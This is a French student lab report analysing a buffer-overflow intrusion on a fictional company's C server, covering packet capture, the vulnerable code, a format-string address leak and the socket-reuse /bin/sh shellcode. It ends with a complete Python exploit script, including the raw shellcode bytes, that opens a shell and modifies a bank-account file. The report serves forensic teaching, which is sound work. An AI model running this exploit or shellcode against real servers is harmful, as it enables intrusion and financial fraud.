# TL de Buffer Overflow

**NEGRE Léo et DANG Arthur**

## 1 - Contexte

La société Pressoare est une entreprise qui propose différents services à ses clients via un portail Web.  
Cependant une attaque a eu lieu créant un déséquilibre dans leurs transactions financières. Une telle attaque peut nuire à l'image de la société.  

Leur équipe interne ont commencé l'enquête pour trouver la faille dans leur sécurité. Ils ont trouvé que la vulnérabilité était liée à un composant d'une application métier développée en C. Ils ont le code source de ce programme, mais il a été créé par un autre prestatire qui n'assure plus la maintenance. 

Les administrateurs réseaux ont aussi réussi à avoir la capture des paquets relatifs à l'attaque. Mais ils manquaient d'expertise pour les analyser.

C'est pourquoi la société Pressoare a fait appel à nos services d'expert en sécurité pour qu'on arrive à mettre rapidement au grand jour les failles de sécurité de leur serveur. Notre travail est donc d'identifier la vulnérabilité, comprendre le fonctionnement de l'attaque qui a eu lieu et de faire les démarches nécéssaires de conseil et d'accompagnement pour aider cette société à sécuriser leur système.

Pour effectuer notre travail, la société nous met à disposition un accès à son infrastrucutre de test entièrement virtualisée contenant l'exécutable du serveur, son code source et les paquets réseaux de l'attaque capturés.

## 2 - Démarche de l'analyse de l'attaque

Nous allons organiser notre analyse en plusieurs fronts:
- L'analyse des trames du réseau pour voir les actions de l'attaquant
- L'analyse du code source pour trouver des erreurs de programmation
- Le test du serveur avec un debugger pour voir comment il réagit selon les actions possibles de l'attaquant

Tout d'abord, après quelques manipulations simples du serveur, on comprend qu'il s'agit d'un serveur tout à fait normal qui est en écoute et répond aux différentes requeêtes classiques qu'on peut lui faire (ECHO, GET, POST..).

### a) Analyse des trames du réseau

Nous pouvons analyser les paquets réseaux liés à l'attaque grâce au fichier trace.pcap fourni par les administrateurs du réseau. Nous les observons alors avec l'outil wireshark qui propose une interface graphique plus pratique.



Un paquet nous a intrigué tout particulièrement car sa longueur était bien supérieure à toute les autres.  
En le regardant de plus près, il n'a pas l'air d'utiliser de protocole particulier (au dessus de la couche TCP).  
En suivant le flux TCP de ce message, nous voyons les échanges suivant qui sont bien suspicieux.



La première commande est unECHO teste des caractères étranges qui fait penser à du code.  
La deuxième est un envoi de grande taille, totalement illisible mais l'enchainement des points fait penser à un toboggan de nope car sa représentation hexadécimale est 0x90 ce qui correspond en langage assembleur à l'instruction nop qui ne fait rien. C'est un classique des attaquants pour pouvoir glisser jusqu'à l'exécution de leur code malveillant qui se trouve en bas de ce toboggan.  
Dans la fin de l'échange, on reconnaît des instructions Linux. On pense donc que l'attaquant a réussi à ouvrir un shell, y envoie des commandes et le serveur répond correctement à ces commandes. Cela indique que l'attaquant a donc réussi à avoir accès à une interface en ligne de commande sur la machine du serveur, qui semble privilégié puisqu'il peut changer les droits d'écriture sur un fichier. Ce qui lui permet de faire tout presque tout ce qu'il veut, c'est une faille majeure.

Tout cela nous laisse penser qu'on a trouvé la payload de l'attaque qui exploite la faille de sécurité du serveur. Maintenant, nous allons chercher à comprendre comment cette payload a permis l'ouverture du shell.

### b) Analyse de code source

Nous avons accès au code source du programme exécuté par le serveur. C'est un programme développé en C et comme nous le savons, ce langage peut exposer des problèmes de sécurité à cause des développeurs qui doivent gérer eux mêmes l'allocation de la mémoire. Une attaque possible sur des programmes de ce genre est le buffer overflow, donc voyons si c'est le cas ici.

Notons que nous avons jonglé entre le test du serveur et l'analyse du code source pour comprendre celui-ci. Mais dans ce rapport nous avons choisi de le présenter séquentiellement.

Plusieurs points dans le code nous ont interpellés.

**Désactivation de la protection de la pile**



Le premier point présente une option du serveur qui le fait exécuter avec le bit NX à 0. Le bit NX pour No Execute est un bit du processeur pour dissocier les zones mémoire contenant des instructions (exécutables) et des zones contenant de la donnée. Ainsi en désactivant ce bit, il sera possible d'exécuter du code présent sur toute la mémoire et non seuelement dans la zone "text" qui contient le code exécutable d'un programme.

**Ecriture sur la pile à partir de données reçus par le serveur**

```c
#define BUFFERLENGTH 200

typedef struct safeMessage_t{
  char safeBuffer[BUFFERLENGTH];  		200
  int i;								4
  int len;								4
  char *dst;							4 (taille adresse fait 32 bits, donc 4 duo de 2 hexa).
  char *src;							4 
  int debut;							4
} safeMessage;

int sanitizeBuffer(char *unsafeBuffer, char **reponse, int* fin){
  safeMessage msg;
  int res=0;
  // Fin de chaîne
  int eos=-1;

  msg.len = strlen(unsafeBuffer);
  msg.debut = 0;
  msg.src = unsafeBuffer;
  msg.dst = (char *)&(msg.safeBuffer);
  printf("Vérification d'une entrée de longueur %d\n", msg.len);

  if(msg.len > BUFFERLENGTH){
    return -BUFFERTOOLONG;
  }
  else{
    for(msg.i=0; msg.i<=msg.len; msg.i++){
#ifdef SSP
      printf("src=%p dst=%p &RET=%p RET=%x i=%d len=%d: 0x%.2x\n", msg.src, msg.dst, (&eos+65), *(&eos+65), msg.i, msg.len, (unsigned char)*(msg.src));
#else
      printf("src=%p dst=%p &RET=%p RET=%x i=%d len=%d: 0x%.2x\n", msg.src, msg.dst, (&eos+64), *(&eos+64), msg.i, msg.len, (unsigned char)*(msg.src));
#endif
      if(!isprint(*(msg.src))){
        syslog(LOG_WARNING, "Caractère non imprimable détectée");
        if(eos == -1)
          eos = msg.i;
      }
      *(msg.dst) = *(msg.src);
      msg.src++;
      msg.dst++;
    }
  }
```

Dans cette 2e partie de code, on remarque un point sensible car on a la copie du message reçu par le serveur dans une autre zone mémoire à la ligne \*(msg.dst)=\*(msg.src).   
Le pointeur msg.src pointe sur le début de la zone où est stocké le message reçu et son contenu est copié à l'adresse msg.dst. Ce pointeur écrit alors à l'adresse où est alloué la place de la variable msg qui est de type safeMessage_t. D'après la définition de cette structure, elle contient 200 octets pour copier le message reçu puis d'autres attributs utilisés pour le fonctionnement de la copie.

Donc à priori on ne devrait pas avoir de problème si on n'écrit pas plus de 200 caractères du message reçu car on a laissé cet espace pour ça. Et en effet dans le code, un test conditionnel if empêche la copie du message reçu si celui-ci est trop long.

MAIS ATTENTION, le langage de programmation C est très précis ! En effet il faut savoir que toute chaine de caractère se termine par le bit \0 qui est le string terminator. Celui-ci permet d'indiquer qu'on arrive à la fin de la chaine de caractère. Dans dans une allocation de 200 octets de mémoire, on ne peut donc écrire que 199 caractère dedans pour laisser la place au dernier bit string terminator!!

ALORS si le message fait 200 octets, on laisse faire la copie de celui-ci et son 200e caractère s'écrit donc la prochaine case mémoire et c'est propice à une attaque en BUFFER OVERFLOW.  
(Ici on parle plus particulièrement de Stack Overflow car la variable msg se trouve dans la pile. La pile contenant les arguments de la fonction, ses variables locales et son adresse de retour. Adresse de retour? nous verrons cela plus tard...)

**Reset du 200e caractère**




Enfin une 3e partie de code met une couche sur la possibilité de buffer overflow. Avec la partie précédente, l'attaquant peut envoyer un message de 200 caractères et écrire donc le 200e en dépassement, mais il s'avère qu'il peut envoyer un message plus long qui passera le test conditionnel.

On remarque avant l'appel de la fonction (qui copie le message reçu) qu'il y a un prétraitement selon les caractères. Si celui-ci vaut "\n" soit 0x0a, il est remplacé par "\0" soit le string terminator. Car il voit un retour à la ligne et indique alors la fin de la chaîne de caractère. Cependant le reste du message est encore à la suite du buffer.

Ensuite lorsqu'on regarde la taille du message, strlen(*string) évalue la taille de la chaine jusqu'au premier "\0" string terminator rencontré. Donc l'attaquant peut se débrouiller pour mettre un "\n" au 200e caractère pour faire croire que son message fait 200 caractères et donc passer le test conditionnel.

Toutefois, la boucle for qui itère pour la copie de chaque octet un par un est limité par ce même msg.len et donc devrait s'arrêter à la copie du 200e caractère. 

### c) Test du serveur

Les deux parties précédentes reflétaient une analyse statique. Ici nous allons plutôt aborder une analyse dynamique en faisant tourner le serveur et en interagissant avec.  
Fort des deux conclusions précédents, on pourra essayer de reproduire les actions de l'attaquant et analyser la réaction du serveur face à celles-ci et précisément à l'endroit du Buffer Overflow.

On possède les fichiers (code source et makefile) pour pouvoir recompiler le binaire du serveur avec les options de debug. C'est ce que nous avons fait pour pouvoir utiliser le debugger gdb avec l'aide graphique peda. On peut alors suivre l'exécution du serveur instruction par instruction avec une vue sur l'espace mémoire du processus et des registres, on peut également débuguer vers l'avant ou vers l'arrière grace à la fonction 'record' de gdb.

**Exécution de "ECHO %x%x%x%x %x"**




Lors de cette action, le serveur retourne deux chaines de caractères qui ressemblent à de l'héxadécimal. En particulier la 2e chaine a la même taille qu'une adresse mémoire.  
Du côté du serveur comme on y a accès, (l'attaquant a du le déduire), on remarque que cette 2e chaine de caractère correspond en fait à l'adresse de destination msg.dst vu auparavant !



Regardons la fonction doEcho() pour comprendre pourquoi ce phénomène a eu lieu.  
Elle renvoie le résultat par la fonction snprintf(). Cependant quand il y a le caractère "%" celui ci indique que la variable à print sera convertie dans le format précisé juste après le symbole %, en l'occurence "x". C'est pourquoi les %x de l'attaques sont convertis en la variable "len" et "echo". Cette deuxième variable est le pointeur safeBuffer+debut c'est à dire l'endroit où on a copié le message reçu (incrémenté de la taille de la commande ECHO) donc le début de la payload de l'echo envoyé.

**Exécution de la payload longue de l'attaquant**

Comme cette payload est longue et qu'elle fait plus de 200 caractères, on se doute que quelque chose de bizzare pourra se passer à l'endroit où on avait détecté un problème dans le code source.




En se placant à l'itération 200 de la boucle, remarque que à la fin de celle-ci la varible msg.i passe de la valeur 200 à 1.   Cette variable sert à l'itération de la boucle for est on devait sortir de la boucle en dépassant 200 = taille du buffer. En la remettant à zéro on va continuer de copier la suite du message.  
En effet le 200è caractère étant "0x0a" le retour à la ligne, on a vu auparavant qu'il était remplacé par "0x00".
Cela pouvait se prédire car les variables d'une même structure ont leur espace mémoire alloué l'un après l'autre et msg.i se trouvait après le msg.safeBuffer.



Et cela se vérifie car après 4 itérations (et avoir donc écrit dans les 4 octets de l'entier msg.i), on a écrit dans msg.len qui suit. msg.len est la limite dans la boucle que i ne peut dépasser sinon on sort de la boucle, la valeur est encore supérieure et on continue donc d'itérer.

On prévoit ensuite donc d'écrire dans ce qui suit et c'est msg.dst!  
Dans la suite de cette exécution on a donc bien écrit dans le msg.dst mais la suite ne reproduit pas l'attaque. Cependant nous avons assez d'éléments pour comprendre ce que l'attaquant a du pouvoir faire.

## 3 - Explication de l'attaque

Avec ce que nous avons compris aupravant, l'attaquant a pu écrire un octet dans l'espace mémoire de msg.dst qui est le pointeur qui indique où on copie les octets du message reçu. Une fois le premier octet modifié (l'octet de point faible en l'occurence car c'est écrit en little indian), les prochains octets seront donc copiés à un autre endroit.  



En l'occurence l'attaquant a écrit un octet tel que msg.dst pointe sur l'adresse de l'adresse de retour ! Ces deux adresses ayant les mêmes 3 octets de poid fort (lorsqu'on itère assez et que msg.dst a assez incrémenté).  
Les prochains octets seront donc écrits dans  l'adresse de retour, et dans quelle adresse l'attaquant aurait voulu écrire pour exécuter du code malveillant? Et bien au début de l'endroit où l'on a copié son message !!

Cependant comment l'attaquant aurait pu savoir quelle était (1) l'adresse où l'on a copié le message et l'adresse de l'adresse de retour (2) ?  
(1) Grâce à l'information récupérée après la première action "ECHO %x%x%x%x %x" : Pour rappel on récupère l'adresse pointée par msg.dst (i.e. l'endroit où l'on écrit le message). Donc c'est cette adresse que l'attaquant va écrire dans l'adresse de retour. Ainsi à la fin de l'exécution de la fonction, la prochaine instruction exécuté sera celles choisies par l'attaquant et soigneusement placées à l'adresse de retour ! En plus avec le toboggan de nop, même si l'adresse n'est pas exactement celle du début du message, on glissera jusqu'à la première "vraie" instruction.  
(2) Par ailleurs l'attaquant pouvait prédire l'adresse de l'adresse de retour car il y a une corrélation constante entre cette adresse et l'adresse récupérée. On émet l'hypothèse qu'il y a juste des variables locales et des arguments de la fonction stockés entre les deux. En l'occurence la différence est de 0xf7.

Cependant, le message que l'attaquant souhaite éxécuter est dans le stack, on ne devrait pas pouvoir l'éxécuter. Malheureusement, la société Pressoare a désactivé sur son serveur le bit NX, rendant les instructions du stack éxécutables.


## 4 Fonctionnement de la payload désassemblée

La majorité des instructions préparent les registres pour effectuer des appels systèmes.
On repère dans la payload plusieurs interruptions INT 0x80, qui selon la valeur du registre EAX font des appels systèmes différents, avec les arguments stockés dans les registres EBX, ECX..

Détaillons les étapes principales de la payload
1. Toboggan de nop pour commencer les instructions au début
2. JMP vers "CALL MAIN" 
3. Initialisation des registres de travail avec les XOR EAX,EAX

Le premier appel système effectué est un mmap (avec EAX=192). Cet appel système alloue un espace mémoire M où l'attaquant pourra écrire ce qu'il voudra en mettant les droits de lecture et écriture.

Le second appel sytème est getpeername (EAX = 368). Cet appel système renvoie les informations sur un socket qui serait ouvert. L'attaquant appelle getpeername sur un file descriptor qu'il incrémente jusqu'à trouver la socket ouverte sur laquelle il est connecté. 

Le troisième appel système DUP2(EAX = 63) avec comme paramètre EBX= 0, 1, 2 copie respectivement stdin, stdout, stderr. C'est ainsi que l'attaquant peut envoyer des commandes, récupérer les retours, et récupérer les messages d'erreur.

Le dernier appel système est Execve (EAX = 11) qui appelle la fonction donnée en argument. En l'occurence l'attaquant éxécute /bin/sh pour lancer un shell.

**Payload de l'attaquant désassemblée**

```
.data:00000081 90                               nop
.data:00000082 eb 71                            jmp    0x000000f5
.data:00000084 5d                               pop    ebp
.data:00000085 31 c0                            xor    eax,eax
.data:00000087 31 db                            xor    ebx,ebx
.data:00000089 31 c9                            xor    ecx,ecx
.data:0000008b 31 d2                            xor    edx,edx
.data:0000008d 31 ff                            xor    edi,edi
.data:0000008f 31 f6                            xor    esi,esi
.data:00000091 b0 22                            mov    al,0x22
.data:00000093 89 c6                            mov    esi,eax
.data:00000095 b0 c0                            mov    al,0xc0
.data:00000097 b1 01                            mov    cl,0x1
.data:00000099 66 c1 e1 0c                      shl    cx,0xc
.data:0000009d b2 03                            mov    dl,0x3
.data:0000009f 4f                               dec    edi
.data:000000a0 cd 80                            int    0x80
.data:000000a2 89 c1                            mov    ecx,eax
.data:000000a4 31 ff                            xor    edi,edi
.data:000000a6 b3 02                            mov    bl,0x2
.data:000000a8 89 ca                            mov    edx,ecx
.data:000000aa 80 c1 04                         add    cl,0x4
.data:000000ad 31 c0                            xor    eax,eax
.data:000000af 66 b8 70 01                      mov    ax,0x170
.data:000000b3 fe c3                            inc    bl
.data:000000b5 c6 02 10                         mov    BYTE PTR [edx],0x10
.data:000000b8 89 39                            mov    DWORD PTR [ecx],edi
.data:000000ba cd 80                            int    0x80
.data:000000bc 39 f8                            cmp    eax,edi
.data:000000be 75 ed                            jne    0x000000ad
.data:000000c0 8b 01                            mov    eax,DWORD PTR [ecx]
.data:000000c2 3c 02                            cmp    al,0x2
.data:000000c4 75 e7                            jne    0x000000ad
.data:000000c6 89 ca                            mov    edx,ecx
.data:000000c8 31 c9                            xor    ecx,ecx
.data:000000ca 31 c0                            xor    eax,eax
.data:000000cc b0 3f                            mov    al,0x3f
.data:000000ce cd 80                            int    0x80
.data:000000d0 41                               inc    ecx
.data:000000d1 b0 3f                            mov    al,0x3f
.data:000000d3 cd 80                            int    0x80
.data:000000d5 41                               inc    ecx
.data:000000d6 b0 3f                            mov    al,0x3f
.data:000000d8 cd 80                            int    0x80
.data:000000da 31 c0                            xor    eax,eax
.data:000000dc 89 6d 08                         mov    DWORD PTR [ebp+0x8],ebp
.data:000000df 89 45 0c                         mov    DWORD PTR [ebp+0xc],eax
.data:000000e2 88 45 07                         mov    BYTE PTR [ebp+0x7],al
.data:000000e5 b0 0b                            mov    al,0xb
.data:000000e7 89 eb                            mov    ebx,ebp
.data:000000e9 8d 4d 08                         lea    ecx,[ebp+0x8]
.data:000000ec 8d 55 0c                         lea    edx,[ebp+0xc]
.data:000000ef cd 80                            int    0x80
.data:000000f1 b0 01                            mov    al,0x1
.data:000000f3 cd 80                            int    0x80
.data:000000f5 e8 8a ff ff ff                   call   0x00000084
.data:000000fa 2f                               das    
.data:000000fb 62 69 6e                         bound  ebp,QWORD PTR [ecx+0x6e]
.data:000000fe 2f                               das    
.data:000000ff 73 68                            jae    0x00000169
.data:00000101 41                               inc    ecx
.data:00000102 41                               inc    ecx
.data:00000103 41                               inc    ecx
.data:00000104 41                               inc    ecx
.data:00000105 41                               inc    ecx
.data:00000106 41                               inc    ecx
.data:00000107 41                               inc    ecx
.data:00000108 41                               inc    ecx
.data:00000109 41                               inc    ecx
.data:0000010a 0a 00                            or     al,BYTE PTR [eax]
.data:0000010c 00 00                            add    BYTE PTR [eax],al
.data:0000010e 0d 00 00 00 8b                   or     eax,0x8b000000
.data:00000113 91                               xchg   ecx,eax
.data:00000114 98                               cwde   
.data:00000115 c3                               ret    
.data:00000116 ff 0a                            dec    DWORD PTR [edx]
```


## 5 Instructions malveillantes éxécutées dans le shell
Une fois le shell lancé, l'attaquant éxécute des instructions pour changer les droits d'écriture, rajouter 1000000 dans le fichier du compte en banque A9826, puis remet les droits d'écriture comme avant pour etre discret.
```
uname
-> Linux
chmod u+w A9826
echo 1000000 > A9826
chmod u-w A9826
exit
```
## 6 - Script de reproduction de l'attaque

Voici le un script que nous avons écrit pour pouvoir reproduire l'attaque.  
Pour la reproduire, il fallait récupérer donc l'addresse de msg.dst après la première requête "ECHO %x%x%x%x %x". Puis on calculait l'adresse de l'adresse de retour &RET.  
On reprenait donc la grosse payload de l'attaquant en remplaçant les 5 derniers octets par l'octet de poid faible de &RET (moins 1 car après copie l'adresse est incrémenter pour écrire sur l'octet suivant) et les 4 derniers octets par l'adresse récupérée qui est plus ou moins l'adresse à l'endroit on notre payload a été stockée.

```python
import socket
from binascii import a2b_hex

host = '192.168.56.101'
port = 5000

# the base_payload comes from the .pcap file
base_payload = [0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
                0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
                0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
                0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0xEB, 0x71, 0x5D, 0x31,
                0xC0, 0x31, 0xDB, 0x31, 0xC9, 0x31, 0xD2, 0x31, 0xFF, 0x31, 0xF6, 0xB0, 0x22, 0x89, 0xC6, 0xB0, 0xC0,
                0xB1, 0x01, 0x66, 0xC1, 0xE1, 0x0C, 0xB2, 0x03, 0x4F, 0xCD, 0x80, 0x89, 0xC1, 0x31, 0xFF, 0xB3, 0x02,
                0x89, 0xCA, 0x80, 0xC1, 0x04, 0x31, 0xC0, 0x66, 0xB8, 0x70, 0x01, 0xFE, 0xC3, 0xC6, 0x02, 0x10, 0x89,
                0x39, 0xCD, 0x80, 0x39, 0xF8, 0x75, 0xED, 0x8B, 0x01, 0x3C, 0x02, 0x75, 0xE7, 0x89, 0xCA, 0x31, 0xC9,
                0x31, 0xC0, 0xB0, 0x3F, 0xCD, 0x80, 0x41, 0xB0, 0x3F, 0xCD, 0x80, 0x41, 0xB0, 0x3F, 0xCD, 0x80, 0x31,
                0xC0, 0x89, 0x6D, 0x08, 0x89, 0x45, 0x0C, 0x88, 0x45, 0x07, 0xB0, 0x0B, 0x89, 0xEB, 0x8D, 0x4D, 0x08,
                0x8D, 0x55, 0x0C, 0xCD, 0x80, 0xB0, 0x01, 0xCD, 0x80, 0xE8, 0x8A, 0xFF, 0xFF, 0xFF, 0x2F, 0x62, 0x69,
                0x6E, 0x2F, 0x73, 0x68, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41]+[0x0A, 0x00, 0x00, 0x00]+\
               [0x0D,0x00, 0x00, 0x00]+[0x00, 0x91, 0x98, 0xC3, 0xFF, 0x0a]

echo = b'ECHO %x%x%x%x %x\n'

# initialize the socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))

# send the ECHO command
s.send(echo)
address = s.recv(4096)
print("Output from ECHO: ", address)
address = address.split()[-1]
address = a2b_hex(address)[::-1] # reverse
address_lower_byte = (address[0] + 0xF6) % 256  # obtain lower byte

i = [0x0A, 0x00, 0x00, 0x00]
len = [0x0C, 0x00, 0x00, 0x00]
payload = base_payload[:200] + i + len +[address_lower_byte]
payload.extend(address)
payload = bytes(payload)
print("Sending the payload: ", payload[50:])

s.send(payload)

# testing the shell
s.send(b'uname\n')
out = s.recv(4096)
print("Output from uname: ", out.decode())

s.send(b'chmod u+w A9826\n')
out = s.recv(4096)
print("Output from instruction: ", out.decode())

s.send(b'echo 1000000 > A9826\n')
out = s.recv(4096)
